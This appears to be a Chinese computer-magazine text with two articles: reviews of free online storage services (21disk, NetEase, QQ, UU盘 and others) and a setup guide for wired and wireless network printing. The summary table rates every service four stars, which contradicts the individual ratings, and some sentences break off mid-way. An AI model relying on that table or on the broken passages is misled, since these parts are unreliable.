综合点评：Mofile 为移动性的文件存储提供了很好的解决方案，不管是打开管理界面，还是上传下载文件，速率表现都很不错；可以将上传的文件共享，同时可对自定义的文件夹设置访问密码。缺点在于速度表现不太稳定，界面略显凌乱，导航功能不清晰。如果在这两方面能够改进，可以进一步增加用户的人气。

| 名称 | 注册和界面 | 速度容量 | 管理方便性 | 共享和安全 | 特色功能 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| Mofile 硬盘 | ★★★ ☆☆ | ★★★ ★☆ | ★★★ ☆☆ | ★★★ ☆☆ | ★★★ ★☆ |

### 5. 21disk 网络 U 盘

推荐指数：★ ☆☆☆☆
网址：http://www.21disk.com/

#### (1) 注册和界面

21Disk 提供了简便的注册方式，不需要填写详细的信息即可快速完成注册。详细信息可以选填，不过如果填写真实可以获取更多的存储空间。21Disk 的操作界面比较有个性，登录后可以看到酷似 Windows 资源管理器的界面。上方的工具条包含了“复制”、“粘贴”、“剪切”等功能按钮。中间的工具条包含了“上载文件”、“超级上载”等操作按钮，如图 9 所示。



#### (2) 速度和容量

在校园网内，速度不太稳定，凌晨 24:00 左右测试一个 200KB 左右的文件，未能上传成功，并出现短暂不动的情况；下载速度也表现一般。普通用户的容量为 64MB。若连续 60 天未登录，将视为自动放弃，系统将目录清空后删除。

#### (3) 上传下载管理的方便性

整个界面都是模拟成资源管理器的操作窗口，比较适合入门用户操作，同时左侧还以图形化的界面显示了硬盘使用情况。

#### (4) 共享和安全访问设置

在未成为付费用户前，无法共享。

#### (5) 特色功能

支持图片、音乐、视频等文件的存储。采用在线方式管理 U 盘，无须下载客户端软件，这虽然在一定程度上避免了造成软件安装垃圾，不过也牺牲了操作反应速度，比较适合新手使用。

综合点评：容量一般，传输速度不太稳定，利用此网络硬盘可以实现简单的文件网络存储与下载。

| 名称 | 注册和界面 | 速度容量 | 管理方便性 | 共享和安全 | 特色功能 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 21disk 硬盘 | ★★★ ☆☆ | ★★☆ ☆☆ | ★★★ ☆☆ | ☆☆☆ ☆☆ | ★★☆ ☆☆ |

#### 小提示：专业网络 U 盘小结

上述网络硬盘都有自己的长处，但在速度表现上普遍不能令人满意。总的来看，VDISK 是一款比较好用的网络硬盘，最大的特点就是容量比较大，操作也比较方便。永硕 E 盘操作互动性强，反应速度快、传输速度快，缺点在于支持的空间过小。AMD 网络硬盘功能丰富而且更具个性化，免费的 25GB 容量和比较快的传输速度，非常有诱惑力，缺点在于共享方面的功能还不够细致。Mofile 网络 U 盘在个性化服务方面表现不错，尤其是空间容量很吸引用户，但速度表现一般。21disk 总体表现一般，还需要通过加强个性化服务来满足用户的需求。关于上述网络硬盘，综合比较结果如下：

| 名称 | 注册和界面 | 速度容量 | 管理方便性 | 共享和安全 | 特色功能 |
|---|---|---|---|---|---|
| VDISK网盘 | ★★★★ | ★★★★ | ★★★★ | ★★★★ | ★★★★ |
| 永硕E盘 | ★★★★ | ★★★★ | ★★★★ | ★★★★ | ★★★★ |
| AMD网络硬盘 | ★★★★ | ★★★★ | ★★★★ | ★★★★ | ★★★★ |
| Mofile硬盘 | ★★★★ | ★★★★ | ★★★★ | ★★★★ | ★★★★ |
| 21disk硬盘 | ★★★★ | ★★★★ | ★★★★ | ★★★★ | ★★★★ |

### 6.其他

为了给用户提供更多的选择，下面还提供了几个网络U盘，简单介绍如下：

-   1. 蜂盘 (http://www.1g.cn/)
蜂盘由玺郫科技(成都)有限公司提供，免费用户可以获得 100MB 的储存空间，需要下载客户端。操作也比较方便。文件共享类似访问“网上邻居”，首先把要共享的文件放在“我的共享”文件夹里，然后是右击“我的共享”文件夹，在快捷菜单中选择“属性”，在“常规”标签中选择“共享该文件夹”，需要的话可以加上访问密码。优点在于操作更贴近日常操作，共享较为方便。缺点在于不支持 WEB 方式管理文件。

-   2. G 宝盘 (http://www.gbaopan.com )
宝盘注册资料的填写很简单，不过要完成注册必须填写正确邮箱，系统会发激活邮件，激活后才可以使用。G 宝盘也提供了丰富的管理方式，整个管理界面简单明了，操作简便。

此外，还列出以下网络 U 盘供参考。

| 名称 | 网站地址 |
|---|---|
| G盘 | http://www.gbdisk.com |
| CNCMAX | http://ucool.zjcnc.net/ |
| UUPAN网络存储 | http://www.uupan.com/ |
| GD全球数据 | http://ourgd.com/ |

## 二、自成一体 大型门户网站提供的网络U盘

除了上述表现优异的网络 U 盘，现在，其他大型网络门户站点也推出了类似的产品，其突出是网络 U 盘属于系列化服务的一个部分，速度比较稳定。借助于原有门户网站的巨大人气，一般都拥有较大的用户群。

### 1. 网易网盘

推荐指数： ★ ★ ★ ★ ☆

网站地址： http://wp.163.com

这是由门户网站网易公司推出的一款网络 U 盘，能够向用户提供文件的存储、访问、备份、共享等文件管理功能，具有门户站点的一贯风范。注册之前，需要向好友发送一封邀请函，当好友成功注册网易邮箱后，即可拥有64MB的网易网盘。或者直接通过积分换取64MB空间。尽管注册过程稍微有点麻烦，但使用安全性高，整体感觉比较方便，如图10所示。

#### (1) 空间和速度

在容量限制方面，在右边的积分兑换页面花费活跃积分，即可免费获得网盘。如果推荐三个朋友成功注册网易邮箱之后，即可完全升级至280MB超大空间。另外，花费500积分可以获得64MB网盘空间，花费1000积分可获得（扩容）128MB网盘空间，花费1800积分可获得（扩容）280MB网盘空间。使用网易邮箱时间越长，积分就越多。一旦登录成功后，其传输速率比较快，单次上传文件最大支持10MB。

#### (2) 使用和访问控制

向用户提供文件的存储、访问、备份等文件管理功能，只需一键操作便可将收到邮件的附件直接转存到网盘，还可直接作为附件发送。在安全性方面，由于以网易邮箱为基础，因此能保证数据的安全性。在文件共享方面，由于邮箱带有一定的私人保密性质，因此暂时不具有其他附加功能，只提供私人文件服务，内容不能共享。

### 2. QQ网络硬盘

推荐指数： ★ ★ ★ ★ ☆

网站地址： http://disk.qq.com

QQ 网络硬盘是 QQ 聊天软件所提供的服务之一，整体功能十分强大，目前，有关 QQ 网络硬盘的使用技巧也很多。QQ 网络硬盘依托 QQ 聊天软件的强大用户群，拥有比较多的用户支持，在 QQ 用户中拥有很高的知名度。

#### (1) 空间和速度

对于QQ免费用户来说，只要点击QQ的网络硬盘面板图标，确认QQ免费用户使用协议，就可获赠16MB网络硬盘空间，如果是QQ会员可升级到64MB，付费还能获得更大空间。在管理面板中，其功能很实用，包括：上传下载文件、移动文件、删除文件、续传文件、音频在线播放、网络记事本、网络硬盘加密及共享等。界面如图11所示。





> 小技巧：为网络硬盘扩容的办法：
前提必须拥有多个QQ号，我们可以分别称之为主号、副号，其中的主号是自己经常使用的那个号码。首先，登录副号，向该副号中的网络硬盘上传文件。然后，将主号添加为共享好友，最后登录主号就能看到副号上共享的所有文件了。如果副号足够多，拥有512MB甚至更大容量的超级网络硬盘也就很容易了。

-   （2）使用和访问控制
登录后，速度比较稳定。从QQ2004 Build0909版本开始，网络硬盘提供了共享服务的功能，选中相应的文件夹，从右键菜单中选择“设置共享”命令，并在“属性”窗口中勾选“共享该文件夹”复选框，然后单击“添加”按钮将允许访问网络硬盘的好友添加到右侧列表框中，最后单击“确定”按钮，稍候会看到“设置共享成功”的提示框，共享后的文件夹无论用户离线或隐身，得到授权的好友只要单击“网络硬盘”图标，然后单击好友的头像即可看到共享文件。

-   （3）特色功能
如果要将网络硬盘中的好东西如某首心仪的音乐推荐给朋友，可以通过E-mail直接转发。右击上传后的MP3歌曲，选择“邮件转发”命令，接下来在弹出的“网络硬盘邮件发送”窗口中的文本框内输入待转发邮件好友的QQ号码，或者单击“选择好友”进行选择，最后输入留言并单击“确定”按钮后即可。

除了上述空间以外，类似的服务还有不少，例如：Tom网盘（http://www.tom.com）、雅虎公文包（http://cn.yahoo.com），这些服务都集成在网站的整体服务中，能够给用户带来很多方便。

## 三、巧借外援:利用第三方工具变邮箱为网络U盘
免费邮箱注册越来越简单，对于有很多邮箱账号的用户来说，如何变废为宝，充分利用呢。现在，尽管大多数免费邮件服务提供商并不支持这种操作方式，但还是有不少人已经在考虑这个问题了。那么，邮箱如何变成网络硬盘呢？

### 1.使用专用软件UU盘
软件下载地址：http://www.uupan.com/
UU盘是一种基于电子邮件的网络存储服务，它能够把电子邮箱空间转换成为网络硬盘空间，并提供优秀的客户端帮助管理网络硬盘空间。其功能包括：移动存储、文件管理、文件共享等。如果将多个电子邮件账号空间加入UU盘，它在上传下载文件的时候会自动负载均衡，将文件分片同时上传到各个邮箱中，可以达到数百KB/s的传输速度。

-   （1）申请大容量免费邮箱
建议选择网易的163、126邮箱（2280MB）、21世纪的21cn邮箱（2100MB）、雅虎的Yahoo邮箱（1GB）、新浪和TOM的免费邮箱（1.5GB）等邮箱，最好是新申请的账号。

-   （2）注册
直接登录软件主页http://www.uupan.com，然后单击“新用户注册”按钮进入账号注册页面。也可以运行“UU盘”，在弹出的登录窗口中单击“现在注册”按钮。输入相关信息后，网页会给出一个账号注册成功的提示，这时用户可以直接单击下面的常用邮箱注册链接打开相应的邮箱注册页面，进而进行新邮箱的注册。

-   （3）登记邮箱
接下来会打开邮箱注册页面，点击“登记邮箱”图标，然后在新页面中点击“登记存储数据的邮箱”。进入登记页面，这里包括邮箱地址、邮箱密码、邮箱SMTP和POP服务器域及端口等，填写完毕单击“提交”按钮。

> 小技巧：UU盘支持两种形式的邮箱，即发送邮箱和数据（存储）邮箱。其中，发送邮箱是这个邮箱账号作为电子邮件的发件人，数据（存储）邮箱用来实际保存数据的邮箱账号。使用Gmail时，要在页面“设置”按钮中，开启该邮箱对所有的邮件的POP3功能。

-   （4）进行文件操作
站点会给出一个邮箱注册成功的提示，至此，用户的网络U盘制作完成。

-   （5）私密共享
这是UU盘首创的一种共享方式，可以通过UU盘客户端将您要共享的东西变成一串文件标识，并拷贝给其他的用户，对方就可以根据这些标识来下载文件了。首先选择自己要共享的文件，点右键出现右键菜单；然后选择希望共享的方式；上面的共享方式将使您的文件公开给所有用户，用户通过search.uupan.com的搜索功能就可以搜索到这个文件。对方直接输入字符串就可以下载共享文件了。

### 2.针对专门邮箱的U盘管理软件
在将邮件空间转换为网络U盘空间的过程中，还出现了一些专门针对某一邮箱的软件。下面，列举其中几个典型的软件。

-   （1）GMail Drive shell extension V1.0.11
软件下载地址：http://www.viksoe.dk/
Gmail Drive shell extension只有146KB，安装完成后，会在硬盘上生成一个虚拟硬盘分区。它可以在硬盘上生成一个虚拟硬盘分区GMail Drive，文件系统为GMailFS，这样硬盘上就多出1GB的空间了。填入Gmail账号和密码，用户就可以在GMail Drive上进行任意的复制、粘贴、删除、创建新的文件夹，甚至拖曳操作，而所有的文件都是存储在Gmail的服务器上。

-   （2）利用RoamDrive将Hotmail邮箱变成网络硬盘
软件下载地址：http://www.roamdrive.com
通过RoamDrive软件就可以将Hotmail变为硬盘。软件安装非常简单，运行程序后可以看到设置向导。如果已经拥有Hotmail邮箱，那么直接单击Next按钮进入下一步，接下来需要输入账户名称、密码进入RoamDrive的主界面。上传文件时，选择相关文件将其直接拖曳至上传窗口就可以了。对文件进行管理时，右击文件，可以选择包括Open（打开）、Download to（下载）、Delete（删除）等命令进行管理。

## 由零晋身200% 网络打印组建高手
文/TMG zx
引言：随着办公的电子化、网络化发展，人们越来越多地把关注的目光投向了网络打印机。我们可以通过有线局域网或者无线局域网方便地实现共享打印。采用网络打印不仅可以提高打印机在局域网内共享打印的可靠性，同时还可以解放出那台保持开机状态且连接到打印机的电脑。它的安装、设置都比较容易，通过随机附带的驱动光盘或者通用的管理软件就可以办到。网络打印的出现既节约了办公成本，同时又提高了工作效率，因此无论大中型企业还是小型企业，都非常地钟爱它。

## 一、四通八达、便捷高效的网络打印机
究竟什么样子才算是网络打印呢？其实道理很简单，我们完全可以理解为网络打印机就是一台PC与普通打印机的结合体。所以网络打印机应该是一台独立存在于网络中的设备（有自己的IP），它与网络中的其他PC处于同等的地位，不受任何一台PC的状态影响，并且，网络打印机能够被网络中任何一台PC检测到，并接受任何一台PC发出的打印命令。从这里我们可以看得出，网络打印机最基本的两个特征就是：联网、打印。

### 1.网络打印机的分类
通常情况下，人们根据网络打印机接入网络的形式不同，将其分为两类：
一类是具有内置网络打印服务器的或者预留有网络打印服务器插槽的打印机，这类打印机可以直接通过网线接入局域网。HP在这方面做得较为突出，通常在HP的高端网络打印机（多功能一体机等）都会内置一块‘网卡’，外部留有网线接口，可以直接接入局域网。接入方式及工作原理可以通过图1表示出来。

另一类是通过打印机的并口（或USB口）外接网络打印服务器从而实现接入局域网的打印机，这种连接方式较为普遍。因为在打印机里内置‘网卡’成本高，而且通用性不强，必须是同品牌的或者确定兼容的才可以使用，也非常不方便升级。因此，网络产品商家将内置的‘网卡’制作成一个采用外部连接的模块，可以拆卸、更换，使其通用性更强，兼容性更好。有的同时还会加上其他功能，方便用户使用、管理。这类的打印机工作原理如图2所示。


### 2.了解特点，对比选择
通过前面对网络打印机的工作特点、接入原理以及其他一些方面的简单介绍，在日常生活中我们对于网络打印机的选购只要把握住网络打印机的速度、工作负荷、机器本身的功能以及品牌售后等几方面特点就能够做到合理配置、选择最优了。

#### （1）高速度才是效率
毫无疑问，打印速度决定着工作效率。对于网络打印机，这一点更为突出。通过对网络打印的原理进行分析，不难看出，在同一个局域网里对打印速度影响较大的有两方面因素，其一、是网络的传输速度（网络打印服务器的数据吞吐量）；其二、是打印机每分钟的出纸量。对于第一种因素，我们以10ppm作为基础值，然后按网络中每增加一台PC便增加1ppm的方法计算比较。例如，如果网络中有10台PC，那么我们至少应该选择20ppm速度的打印服务器（或网络打印机）。对于打印机每分钟出纸量的要求，我们则可以适当放宽标准，因为目前市场上的各类激光打印机基本上都可以满足不同需求的用户（当然，对于喷墨打印机就不要太苛刻了），一般打印量大的用户在每分钟30~50张之间选择就可以满足需求了。

#### （2）高负荷才是能力
打印机的负荷就是指打印强度或月打印量。我们必须使打印机在其额定的工作负荷内工作（通常情况），否则会严重影响打印质量和打印机本身的使用寿命。我们可以根据以前打印的频率，以月为周期，简单地进行估算，然后对比打印机参数中相应的数值来选择适合的打印机。比如，一个日打印量平均在1000~2000张的单位，应该选择负荷能够达到30000~60000张/月的打印机较为合适。

#### （3）多功能体现便捷
除了基本的硬件要求以外，网络打印机还应当具备一些其他功能。双面打印功能是首当其冲的，虽然很多传统的打印机从软件上支持这项功能，但是使用起来非常麻烦，而且出错率高，费工费时；而采用硬件技术支持的双面打印功能既省时又省力，特别是在网络中繁重的打印量下，双面打印无疑会更好地节省纸张、降低成本。还有就是要根据打印量大小去考虑打印机的输纸能力，现在的主流网络打印机一般都支持三种或三种以上的纸张输入，并且有较为理想的纸张存储量（一次可以存下几包容量的纸张）。除了这些，网络打印机还具有支持不同规格纸张打印，更大的扩展潜力等功能。例如惠普的高端打印机大多都预留了多个EIO（增强输入输出接口）口，虽然是专用的，但是也很方便用户根据以后的情况进行升级。

#### （4）售后服务是保障
选择好的机器并不代表万事大吉，良好的售后服务是必要的保障措施。俗话说“不怕一万，就怕万一”，况且对于现代的高端网络打印机，必须具备一定的专业知识才能够维护、维修。所以，最好是选择知名品牌或者大的厂商的产品，考察商家是否提供良好的上门服务及信誉等等，并签订好保修证书。

## 二、从 PC 通往打印机的高速公路
### ——网络打印服务器
我们经常会遇到这样一种情况，打印机已经和一台电脑连接，同时另外一台电脑也需要打印，怎么办呢？现在，我们完全不用为这个再伤脑筋。一个小巧的网络打印服务器就可以解决问题！网络打印服务器能够为传统的非网络打印机提供共享打印的服务，它是独立于PC机存在的，可以方便的拆卸，具有体积小，成本低、工作稳定、方便管理等特点。它还同时拥有网络接口（BNC、RJ45、WLAN 或蓝牙）和打印接口（并口或USB口），是PC与打印机之间的高速桥梁。

### 1.打印服务器的分类
按照打印服务器与打印机的连接形式不同，我们可以将打印服务器分为内置式和外接式两种；按照打印服务器存在的网络形式，我们又可以将它们分为有线网络打印服务器与无线网络打印服务器两种。

#### （1）内置式网络打印服务器
与PC机一样，打印机也同样可以有一块“网卡”，内置式网络打印服务器就是这块“网卡”。它集成了网络连接功能和共享打印功能，为局域网内的PC机提供共享打印。内置式网络打印机一般采用的是打印机专用接口，通用性不强，通常只能在同品牌之间互相匹配使用，而且价格相对较贵。例如市面上常见的惠普 Jetdirect 620N J7934A 就是一款内置式打印服务器，外形是不是很像一块PC的网卡（如图3）？从挡板外面可以看到一个网线接入口，从这里直接接入网络，传输速度为10/100Mbps。


#### （2）外置式网络打印服务器
外置式网络打印服务器的工作原理与内置式一样，不同之处就是它是一个独立的模块，接口类型采用的是较为通用的打印机口或USB口。因此，外置式打印服务器的生产厂商非常的多（现在多为网络生产厂商），而且各种品牌基本上都能与市面上的打印机兼容使用，这使得组建网络打印更为方便简单。像这款惠普 Jetdirect EN3700 J7942A 打印服务器，外形很像现在的手机充电器（如图4），它采用的就是USB接口与打印机相连，然后再通过标准的网线接口（RJ-45）连接入局域网，传输速度与内置打印服务器的相同。


#### （3）无线网络打印服务器
无线网络打印服务器是近几年随着无线网络技术的发展而出现的产品。随着技术的成熟，目前主流无线打印服务器的各项技术水平已经基本达到有线打印服务器的标准（有的甚至已经超出）。在使用上，无线打印服务器最明显的优势就是：安装简单、使用方便、省去了网线等等。当然它同样也存在着不足，信号受环境影响、传输距离有限等都还是目前无法克服的。
无线网络打印服务器同样也分为内置式和外置式两种，但是外置式的较为常见，也比较经济实用。
我们可以看到下面（见图5）一款Linksys WPS11无线打印服务器（外置），体积比较小巧，而且在面板上拥有功能丰富的状态指示灯——方便用户监视设备的工作状态，它的传输速度同样也可以达到100Mbps。


### 2.网络打印服务器的选购技巧
#### （1）选择相匹配的接口类型
内置或外置有线打印服务器在选择时一定要注意与现有打印机的接口类型相匹配。如果现有的打印机型号较老，一般应该选择并口（外置式）或者兼容的插口（内置式）类型的服务器；型号较新的打印机一般都设有USB口，匹配较为方便。
接入网络的端口，目前有线的服务器已经普遍采用RJ-45类型了。这类接口有三种速度10Mbps、100Mbps、1000Mbps，在选择时应当根据实际工作需求选择（速度越高，价格越贵）。无线打印服务器选择时只要协议相同即可。

#### （2）与网络环境相兼容
目前主流的网络协议采用的是TCP/IP，一般只要打印服务器支持这种协议就可以正常使用。但是，还是建议大家在选配的时候检查一下现有的网络协议。

## 三、网络打印三步曲——网络打印设备安装
虽然目前高端的网络打印机可以直接通过其功能强大的内置打印服务器来实现网络打印，但对于大多数中小型企业或办公室来说，使用外置打印服务器或打印共享器连接现有的打印机来实现网络打印，是一种更加经济、实用的解决方案。大的控制面板进行相应的设置，但是通常情况下，我们还是需要通过 PC 来对网络打印机进行设置。尽管网络打印机的品牌繁多，然而其安装与设置的方法大同小异，步骤基本上一样，我们可以将其概括为三步。下面，就具体介绍一下这个‘网络打印三步曲’。

### 1.安装配置网络打印服务器或网络打印机
我们先要进行一些准备工作，将网络打印机或网络打印服务器接入局域网中，如果是打印服务器，则要确定打印服务器与打印机已连接好。接下来，就可以开始进行配置了。配置的原理很简单，目的是为了给网络打印服务器设置相应的网络协议或者为其指定一个合适的 IP，从而保证其他电脑可以顺利地与打印机建立连接。我们可以通过随机的软件来进行配置，也可以采用其他通用设置软件进行配置（例如 HP WebJet Admin ）。这里我们以中怡数宽的 BiAdmin 为例来进行说明：
-   （1）运行‘BiAdmin’，我们会看到一个选择网络协议的窗口，在 Windows 系统中建议选择 TCP/IP 和 NetBEUI 协议（如图 6）。这时会有两种情况：如果网络里已有 DHCP 服务器，并且打印服务器是 DHCP 的客户端，我们则只需要选择 TCP/IP 协议就能找到自动获得 IP 的打印服务器；或者通过 NetBEUI 协议对打印服务器进行搜索。

-   （2）单击‘OK’进入管理界面。BiAdmin 会自动搜索已连接入网络的打印服务器，并在窗口中以列表的形式显示出已找到的打印服务器。我们可以双击显示出来的名称查看打印服务器的详细信息。如果发现其中的‘IP Address’项显示为 0.0.0.0，则说明打印服务器没有获得 IP 地址，这时我们需要通过主窗口里‘InitDevice’标签下的‘Set IP Address’命令进行手动设置。这里要注意的是输入的 IP 一定要与现有的这个网段相匹配（在同一网段内），否则会无法找到打印机。
-   （3）固定 IP 设置好以后，一定不要忘记用 Ping 命令进行检查，如果能够顺利 Ping 通，则说明网络设置已经 OK。

### 2.安装打印机驱动程序
打开‘开始’菜单栏，并在列表中单击打开‘控制面板’，然后双击‘打印机和传真’，在弹出的窗口中双击‘添加打印机’开始‘添加打印机向导’。根据窗口中的文字说明，一路单击‘下一步’，要注意的是在第二步中一定要选择‘连接到此计算机的本地打印机’，并且去掉‘自动检测并安装即插即用打印机’复选框里的对勾。在打印机端口选择界面里单击选择 LPT1 端口。

### 3.配置打印机端口
完成了上面两个步骤之后，就该进行最后一步，将打印机的默认端口修改为网络端口。
通常情况下，Windows 系统并没有安装 Unix 的 LPD 打印服务，因此我们需要进行手动安装。
-   （1）在‘控制面板’中双击打开‘添加或删除程序’项，单击进入‘添加 / 删除 Windows 组件’项。
-   （2）在‘Windows 组件向导’的对话框中勾选‘其他的网络文件和打印服务’复选框。
-   （3）单击‘详细信息’，并在弹出的对话框中选择‘Unix 打印服务’，最后单击‘确定’完成添加。
-   （4）进入打印机属性对话框，单击选择‘端口’标签，在这个界面里单击‘添加端口’，然后在弹出的对话框中选择‘LPR Port’。
-   （5）单击‘新端口’，在‘添加 LPR 兼容的打印机’对话框中键入前面设置好的打印服务器的 IP 地址，最后将这个端口设置成打印机默认的端口即可。
这样，网络打印的设置就完成了。你可以单击打印机属性窗口中的‘打印测试页’进行打印测试。另外，Windows 系统中还有一种 SMB（网络共享）打印方式，在这种模式下打印机相当于一台接入网络的 PC，其配置步骤与一般的网络共享打印是一样的，因此在这里就不再作介绍。

## 四、生活更轻松、办公更简单
### ——无线打印全攻略
随着互联网技术的不断发展创新，无线网络技术不断成熟，并逐渐成长为我们日常生活、办公中所不能缺少的一部分。它带给我们的已经不再是单纯的技术上的革新，而是代表着更高效、更便捷的方法。实现无线打印的方法很多，常见的有直接使用无线打印机（这类打印机一般采用蓝牙、Wi-Fi、红外无线传输技术），还可以使用‘普通打印机 + 无线打印服务器’，或者‘普通打印机 + 无线蓝牙打印服务器’等方案。

### 1.目前通用的三种无线传输技术
-   （1）红外技术
较早的一种无线传输技术（许多手机、电脑上都配备着 IrDA 模块，即红外数据传输设备），它有着传输速度快（一般为 4Mbps～16 Mbps）、成本低廉、体积小及功率低等特点。但是，由于红外传输距离很短（一般为 1m 左右），并且两个 IrDA 端口相对的角度不能超过 30 度且中间不能有障碍物等缺陷，限制了红外技术的应用范围，已经很难满足现代人们的使用需求了。
-   （2）蓝牙技术
英文为 Bluetooth，同样是一种短距离的无线通讯技术（其传输距离优于红外技术，有效距离为 10m 左右），并且没有方向上的限制，穿透障碍物的能力也较强，因此被广泛应用于笔记本电脑（部分台式机也配置有此功能）、手机、打印机（目前市场上的多为采用外置蓝牙模块升级为无线打印机）、无线耳机等设备。蓝牙无线传输技术仍旧存在着传输距离较短（虽然已经有 10m 了），而## （3）Wi-Fi技术

全称为 Wireless Fidelity 无线保真技术，或者称为 WLAN（Wireless Local Area Network，无线局域网）技术。主流的 Wi-Fi 技术的无线标准有 IEEE802.11b 及 IEEE802.11g 两种，分别可以提供 11Mbps 和 54Mbps 两种传输速度，有效传输距离在 100m 以上。相对于红外技术和蓝牙技术，Wi-Fi 有着绝对的优势，更适合于办公场所的无线打印升级方案，其各方面与有线网络打印机及有线网络服务器相比都毫不逊色。

## 2. “小巧便捷，该出手时就出手”
### ——蓝牙无线，个人移动好帮手

目前无线打印机自带有蓝牙功能的较少，通常情况下是采用市面上常见的蓝牙无线打印模块（蓝牙打印转接器）外接到普通打印机上升级成为蓝牙无线打印机的。根据蓝牙传输技术的特点，蓝牙无线打印机较为适合个人用户，可以方便地随时随地执行小数量的打印任务。特别是对于家庭用户打印数码相片，无论是通过具有蓝牙功能的手机还是笔记本电脑，都非常便捷。

那么该如何对蓝牙打印机进行设置呢？我们可以选择本身支持蓝牙功能的无线打印机进行打印，通过打印机的液晶屏幕就可以进行设备识别及相关的打印设置——但这种打印机较少，而且价格较贵，不适合普及使用。

另一种方案就是采用蓝牙打印转接器与普通打印机组合成为蓝牙无线打印机（如图 7）。



图 7 中，打印输出设备必须具有蓝牙功能（目前市场上的手机、PDA、笔记本电脑一般都配有此功能），通过一个外形类似于 U 盘的蓝牙打印转接器将打印任务传输给打印机，当然，这个打印机应该有能够插上蓝牙转接器的端口（如 USB 接口）。下面就此方案的设置作一下简单的说明。

#### （1）内置打印机蓝牙模块（如图 8）

有效传输距离为 10m，USB 接口，直接插入到打印机的 USB 接口，就可以让普通的 USB 打印机升级为无线打印机。


以 PocketPC（以下简称 PPC）的设置为例：

-   ①将蓝牙模块插入打印机的 USB 接口，再把蓝牙模块的电源接通，打印机也接通电源后开启。此时打印机蓝牙模块的指示灯（蓝色）应为持续亮着，表示它已经处于就绪状态。
-   ②开启 PPC 的蓝牙功能（见图 9）。首先，在 PPC 的 Bluetooth 设置窗口中单击“模式”标签（窗口的左下方），勾选“打开 Bluetooth”及“使此设备可被其他设备检测到”两个选项；然后单击“设备”标签，根据提示说明单击“新建”让 PPC 搜索附近的蓝牙设备。


-   ③ PPC 需要花费几分钟时间检测到处于待机状态的打印机蓝牙模块，单击选择“添加该设备”。为了让蓝牙设备之间进行匹配，在这里需要输入一个密钥（随便输入即可），打印机蓝牙模块会自动进行匹配，并且会在 PPC 上虚拟一个串口建立连接，单击“是”进行确认；别忘记给打印机蓝牙模块键入一个显示名称（方便以后再次使用），单击“完成”结束匹配过程。
-   ④单击“COM 端口”标签，进入后根据窗口内的文字说明进行设置。我们接下来要为刚才匹配的打印机蓝牙模块新建一个输出端口。单击选择已匹配的蓝牙设备，然后随意选择一个端口（例如这里选择 COM6），由于是虚拟的端口，所以不必担心会对打印产生影响。设置完毕后，可以看到打印机蓝牙模块出现在 COM 端口列表中，后面括号内显示的是该蓝牙设备绑定的端口（见图 10）。


-   ⑤从网上下载 PrintPocketCE。它是一个可以通过网络、红外、蓝牙等方式打印 Pocket Word（Word、RTF、TXT）、Pocket Excel 和 E-mail 文档的软件，支持常用的文档字体及排版格式。安装好后，开启 PrintPocketCE，选择所要打印的文件，就可以进入打印设置页面。设置文字的字体、大小、加粗、下划线等选项，以及制表位所用字符数量。接着选择打印机、端口、颜色和纸张大小，单击“Start Printing”开始打印，或者单击“More Settings”设置其他选项（见图11）。



-   ⑥所有设置完毕，在蓝牙通讯正常的情况下，我们在PPC上可以看到发送的字节数。

同样道理，设置采用蓝牙模块的打印机进行无线打印的方法除了上面所述的PPC之外，在个人电脑、笔记本、手机上也是大同小异。

### （2）EPOX 推出的BT-PA04AU 蓝牙模块（如图12）

使用通用的USB打印机接口，而且它支持更多类型的蓝牙设备。这款蓝牙模块的性能较为全面：传输距离为100m（可见距离），属于即插即用型；支持多种蓝牙打印服务（如HCRP、OPP、BIP、SPP等）；采用标准USB口连接；支持多种打印机语言（如PCL，ESCP and EM等）；支持自动高质量图象缩放以及JPEG压缩算法；支持蓝牙手机、PDA、蓝牙数码相机发送的JPEG图片；对移动设备（蓝牙手机、PDA、蓝牙数码相机、便携电脑）和打印机兼容性较好。


BT-PA04AU蓝牙打印适配器使用起来相当的便捷，只需按照下面图示与打印机相接驳，然后根据设置窗口中的文字提示进行简单的设置即可。安装步骤如下：

-   ①用USB连接线将蓝牙模块与打印机连接。
-   ②将蓝牙模块的外接电源接通。
-   ③接通打印机的电源，并开启打印机。

## 3. “让你的办公随心所欲，整齐化一”
### ——Wi-Fi无线技术，办公打印“终结者”

Wi-Fi技术的高速、多任务同时传输以及可连接多台电脑（打印输入端）同时工作的特点，能够很好地满足小型网络办公的需求。Wi-Fi无线打印的解决方案相对较多，你可以采用网络打印机+无线AP方案、纯无线打印服务器方案及带打印服务器的无线路由器方案中的任何一种。

#### （1）无线服务器分类

首先，我们应该先对无线服务器做一些了解。

第一类，无线打印服务器分为内置与外置两种类型。内置的产品较少（一般都是惠普生产的），采用的是专业的打印机端口，而且通常只能是同品牌的相互配套使用；而外置无线打印服务器因为其生产商多为网络设备厂商，所以产品较多，选择的余地也较大。

第二类，无线打印服务器分为IEEE802.11b与IEEE802.11g两种标准。采用IEEE802.11b标准的无线打印服务器传输速度为11Mbps，而采用IEEE802.11g标准的是目前无线打印服务器的主流配置，其传输速度可以达到54Mbps，能够更好的与目前的高速打印机相匹配。

第三类，无线打印服务器又分为无线打印服务器与带打印服务器的无线路由器两类。大多数的无线打印服务器功能单一，其无线部分只是提供了一个网络接口，没有AP或路由的功能；带打印服务器的无线路由器，其本质是一台路由器，不同点就是它增加了打印服务器功能，而且集成了更多的其他功能。

下面，将对Wi-Fi技术的无线打印解决方案进行简单的说明。

### （2）网络打印机+无线AP方案（图13）


#### （3）纯无线打印服务器方案（图14）



#### （4）带打印服务器的无线路由器方案（如图15）



无线路由器可以使用DI-724P+无线路由器。

无线打印和有线打印之间在性能上基本相等，同样的速度、图像质量、分辨率以及其它性能等等。现在的我们已经可以做到“随时随地，想印就印”；可以做到办公室里没有杂乱的网线绊脚，同时又不影响大家进行同步工作……无线打印以其不俗的表现使我们在日常生活、办公中变得更轻松，更高效！